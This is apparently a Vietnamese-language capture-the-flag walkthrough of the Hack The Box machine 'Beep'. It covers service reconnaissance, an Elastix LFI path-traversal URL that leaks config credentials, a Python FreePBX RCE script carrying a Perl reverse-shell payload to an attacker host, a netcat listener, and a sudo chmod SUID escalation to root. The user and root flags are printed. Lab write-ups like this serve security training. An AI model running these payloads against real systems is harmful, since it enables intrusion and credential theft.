



# Thông tin máy 


> [!NOTE]
> Mức độ: Dễ 
> Url: https://app.hackthebox.com/machines/Beep
> Nền tảng: Linux 
> Mô tả: Beep có một danh sách rất lớn các dịch vụ đang chạy, điều này có thể khiến việc tìm ra phương thức nhập liệu chính xác trở nên hơi khó khăn. Cỗ máy này có thể gây choáng ngợp cho một số người vì có rất nhiều phương thức tấn công tiềm tàng. May mắn thay, có một số phương pháp để truy cập.


# Recon

## Port Scan 

```bash
nmap -sSVC -Pn 10.129.229.183
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-14 21:37 -0400
Nmap scan report for 10.129.229.183
Host is up (0.066s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.129.229.183/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            852/udp   status
|_  100024  1            855/tcp   status
143/tcp   open  imap?
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-title: Elastix - Login page
|_ssl-date: 2026-10-15T01:39:59+00:00; -1m08s from scanner time.
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: -1m08s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 514.32 seconds
```

- Kết quả:

| Port  | Service   | Version            |
| ----- | --------- | ------------------ |
| 22    | SSH       | OpenSSH 4.3        |
| 25    | SMTP      | smtp?              |
| 80    | HTTP      | Apache httpd 2.2.3 |
| 110   | POP3      |                    |
| 111   | RPCbind   |                    |
| 143   | IMAP      |                    |
| 443   | HTTPS     | Apache httpd 2.2.3 |
| 993   | IMAPS     |                    |
| 995   | POP3S     |                    |
| 3306  | mysql     |                    |
| 4445  | upnotifyp |                    |
| 10000 | HTTP      | MiniServ 1.570     |

## Web Service 

> Truy cập web nhưng trình duyệt báo lỗi do phiên bản TLS máy mục tiêu quá thấp 
> Kiểm tra phiên bản TLS máy mục tiêu phát hiện phiên bản TLSv1.0



- Kiểm tra phiên bản TLS máy mục tiêu 
```bash
└─$ sslscan 10.129.229.183                                              
Version: 2.1.5
OpenSSL 3.6.3 9 Jun 2026

Connected to 10.129.229.183

Testing SSL server 10.129.229.183 on port 443 using SNI name 10.129.229.183

  SSL/TLS Protocols:
SSLv2     disabled
SSLv3     enabled
TLSv1.0   enabled
TLSv1.1   disabled
TLSv1.2   disabled
TLSv1.3   disabled

  TLS Fallback SCSV:
Server does not support TLS Fallback SCSV

  TLS renegotiation:
Secure session renegotiation supported

  TLS Compression:
Compression enabled (CRIME)

  Heartbleed:
TLSv1.0 not vulnerable to heartbleed

  Supported Server Cipher(s):
Preferred TLSv1.0  256 bits  DHE-RSA-AES256-SHA            DHE 1024 bits
Accepted  TLSv1.0  128 bits  DHE-RSA-AES128-SHA            DHE 1024 bits
Accepted  TLSv1.0  256 bits  AES256-SHA                   
Accepted  TLSv1.0  128 bits  AES128-SHA                   
Accepted  TLSv1.0  128 bits  TLS_RSA_WITH_RC4_128_MD5     
Accepted  TLSv1.0  128 bits  TLS_RSA_WITH_RC4_128_SHA     
Accepted  TLSv1.0  56 bits   TLS_RSA_WITH_DES_CBC_SHA     
Accepted  TLSv1.0  112 bits  TLS_RSA_WITH_3DES_EDE_CBC_SHA
Accepted  TLSv1.0  56 bits   TLS_DHE_RSA_WITH_DES_CBC_SHA 
Accepted  TLSv1.0  112 bits  TLS_DHE_RSA_WITH_3DES_EDE_CBC_SHA

  SSL Certificate:
Signature Algorithm: sha1WithRSAEncryption
RSA Key Strength:    1024

Subject:  localhost.localdomain
Issuer:   localhost.localdomain

Not valid before: Apr  7 08:22:08 2017 GMT
Not valid after:  Apr  7 08:22:08 2018 GMT
```

> Truy cập `about:config` và tìm kiếm thiết lập `security.tls.version.min` chỉnh thành 1
> Truy cập được dịch vụ web và dịch vụ elastix



> Liệt kê thư mục, tệp ẩn 

```
└─$ gobuster dir -u https://10.129.229.183/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 --ne -x php,txt,sh,xml -k 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.229.183/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,sh,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 1785]
images               (Status: 301) [Size: 318] [--> https://10.129.229.183/images/]
help                 (Status: 301) [Size: 316] [--> https://10.129.229.183/help/]
register.php         (Status: 200) [Size: 1785]
themes               (Status: 301) [Size: 318] [--> https://10.129.229.183/themes/]
mail                 (Status: 301) [Size: 316] [--> https://10.129.229.183/mail/]
admin                (Status: 301) [Size: 317] [--> https://10.129.229.183/admin/]
static               (Status: 301) [Size: 318] [--> https://10.129.229.183/static/]
modules              (Status: 301) [Size: 319] [--> https://10.129.229.183/modules/]
lang                 (Status: 301) [Size: 316] [--> https://10.129.229.183/lang/]
config.php           (Status: 200) [Size: 1785]
robots.txt           (Status: 200) [Size: 28]
var                  (Status: 301) [Size: 315] [--> https://10.129.229.183/var/]
panel                (Status: 301) [Size: 317] [--> https://10.129.229.183/panel/]
libs                 (Status: 301) [Size: 316] [--> https://10.129.229.183/libs/]
recordings           (Status: 301) [Size: 322] [--> https://10.129.229.183/recordings/]
configs              (Status: 301) [Size: 319] [--> https://10.129.229.183/configs/]
vtigercrm            (Status: 301) [Size: 321] [--> https://10.129.229.183/vtigercrm/]
```

- /mail, /admin.php rất đang chú ý 
# Exploit

> Sau khi tìm kiếm dịch vụ elastix tồn tại 1 lỗ hổng LFI ở đường dẫn `/vtigercrm/graph.php?current_language=`
> https://www.exploit-db.com/exploits/37637
> Từ đó có thể đọc được file cấu hình `/etc/amportal.conf` chứa thông tin xác thực 
> `https://10.129.229.183/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

> Truy cập /admin với thông tin xác thực admin:jEhdIekWmdjE
> Phát hiện dịch vụ FreePBX phiên bản 2.8.1



> FreePBX 2.8.1 tồn tại lỗ hổng RCE
> FreePBX là một giao diện quản lý đồ họa (GUI) mã nguồn mở dựa trên nền web, dùng để cấu hình và điều khiển phần mềm tổng đài Asterisk (một máy chủ thoại qua IP - VoIP)
> https://www.exploit-db.com/exploits/18650
> https://nvd.nist.gov/vuln/detail/cve-2012-4869

- Xác định dò tìm SIP extension (số máy nhánh) trên máy chủ VoIP
```bash
svwar -m INVITE -e100-999 10.129.229.183
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
```

- Mã khai thác lỗ hổng RCE
```python
import urllib
import ssl
rhost="IP_VICTIM"
lhost="IP_ATTACKER"
lport=PORT_ATTACKER
extension="233"

ssl._create_default_https_context = ssl._create_unverified_context

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)
```

- Mở cổng lắng nghe
```
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.229.183] 52853
whoami
asterisk
id
uid=100(asterisk) gid=101(asterisk)
```

- User flag
```text
53fce4c4deb9069d0c0aa69c399b30b1
```
# Privilege Escalation

> Liệt kê các lệnh người dùng có thể chạy với quyền sudo 
> Ở đây có rẩ nhiều cách để leo thang nhưng tôi dùng lệnh `chmod`

```
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

> Leo thang bằng cách đặt SUID cho /bin/bash 
> Khi chạy bash và giữ quyền cao sẽ có shell root

```
bash-3.2$ sudo -u root /bin/chmod u+s /bin/bash
bash-3.2$ ls -al /bin/bash
-rwsr-xr-x 1 root root 735004 Jan 22  2009 /bin/bash
bash-3.2$ bash -p
bash-3.2# id
uid=100(asterisk) gid=101(asterisk) euid=0(root) egid=0(root)
bash-3.2# whoami
root
```

> Root Flag

```text
5908bc0100d751e7068af906be1cd256
```
# Kết luận 

- Phòng này mức dê và tồn tại rất nhiều lỗ hổng bảo mật để có thể xâm nhập vào hệ thống 
- Leo thang đặc quyền cũng có nhiều phuwogn pháp dùng nmap, chmod,.. do được thiết lập với đặc quyền cao mà không cần mật khẩu 